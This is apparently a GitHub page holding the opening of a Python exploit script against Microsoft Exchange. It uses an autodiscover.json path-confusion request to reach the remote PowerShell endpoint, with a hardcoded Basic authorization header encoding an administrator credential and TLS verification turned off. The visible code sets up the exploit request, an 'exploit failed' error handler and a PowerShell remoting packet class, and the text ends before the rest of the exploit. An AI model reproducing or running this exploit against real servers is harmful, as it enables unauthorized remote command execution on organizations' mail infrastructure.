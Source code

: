## How to enable Winrm

[https://techexpert.tips/powershell/powershell-remote-commands-winrm/](https://techexpert.tips/powershell/powershell-remote-commands-winrm/)

## Source Code

```python
import requests
#from requests_toolbelt.adapters import host_header_ssl
import base64
import re
import xml.dom.minidom
import uuid
import struct
import sys
import time
import random
import string

def sendPostRequest(data):
	url = 'https://dc.darksys.com/autodiscover/autodiscover.json?@fucky0u.edu/PowerShell?serializationLevel=Full;ExchClientVer=15.2.922.7;clientApplication=ManagementShell;TargetServer=;PSVersion=5.1.17763.592&Email=autodiscover/autodiscover.json%3f@fucky0u.edu'
	headers = {
	    'User-Agent' : 'Microsoft WinRM Client',
	    'Authorization' : 'Basic ZGFya3N5c1xhZG1pbmlzdHJhdG9yOlBhc3N3b3JkQDEyMw==',
	    'Content-Type': 'application/soap+xml;charset=UTF-8',
	    'Host': 'dc.darksys.com',
	    'Expect': '100-continue',
	    'Connection': 'Keep-Alive',
	    'X-Forwarded-For': 'dc.darksys.com',  
	}
	headers["Content-Length"] = str(len(data))
	x = requests.post(url, headers = headers, data = data, verify = False)
	print("length = %s" % (headers["Content-Length"]))
	return x

def print_error_and_exit(error, r):
	print ('[+] ', repr(error))
	if r is not None:
		print ('[+] status_code: ', r.status_code)
		print ('[+] response headers: ', repr(r.headers))
		print ('[+] response: ', repr(r.text))
	raise Exception("exploit failed")

class BasePacket:
	def __init__(self, ObjectId = 0, Destination = 2, MessageType = 0, RPID = None, PID = None, Data = ""):
		self.ObjectId = ObjectId
		self.FragmentId = 0
		self.Flags = "\x03"
		self.Destination = Destination
		self.MessageType = MessageType
		self.RPID = RPID
		self.PID = PID
		self.Data = Data

	def __str__(self):
		return "ObjectId: " + str(self.ObjectId) + ", FragmentId: " + str(self.FragmentId) + ", MessageType: " + str(self.MessageType) + ", RPID: " + str(self.RPID) + ", PID: " + str(self.PID) + ", Data: " + self.Data

```